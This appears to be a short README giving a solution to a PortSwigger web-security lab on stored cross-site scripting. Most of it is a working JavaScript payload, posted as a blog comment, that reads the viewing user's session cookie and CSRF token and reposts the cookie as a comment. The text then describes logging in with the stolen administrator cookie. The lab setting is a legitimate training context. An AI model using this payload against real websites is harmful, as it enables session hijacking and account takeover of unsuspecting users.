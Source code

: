 Solution to portswigger lab without using burpsuite collaborator.

Javascript code to post as a comment in order to obtain the cookies of the users that watch the comment blog (administrator). 

The script will post the user's session cookie as a comment.

Introduce your lab id in the url as well as the correct postId of the blog your are in. After, log in using the administrator cookie.


Keystore information:
```
<script>
window.onload = function () {
var data = "csrf=" + document.getElementsByName("csrf")[0].value + "&postId=3&comment=" + document.cookie + "&name=test&email=test@test&website"
fetch('https://your-lab-id.web-security-academy.net/post/comment', {
method: 'POST',
mode: 'no-cors',
body: (data)
});
};
</script>
```
